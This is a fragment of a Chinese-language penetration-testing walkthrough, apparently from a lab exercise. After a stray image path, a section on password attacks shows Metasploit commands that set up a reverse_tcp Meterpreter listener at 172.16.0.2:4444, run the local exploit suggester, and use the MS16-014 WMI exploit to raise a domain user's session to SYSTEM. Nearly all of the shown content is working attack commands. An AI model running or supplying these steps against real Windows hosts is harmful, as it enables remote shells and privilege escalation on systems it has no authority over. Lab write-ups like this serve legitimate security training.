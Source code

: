 剩下的内容即可在里面查看相关的数据。

![image-20230108211456481](../../images//image-20230108211456481.png)





## 三 口令攻击

从7-1主机上线msfshell后（普通域用户），提权至system权限

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 1
exploit
```

![image-20230108234116661](../../images//image-20230108234116661.png)
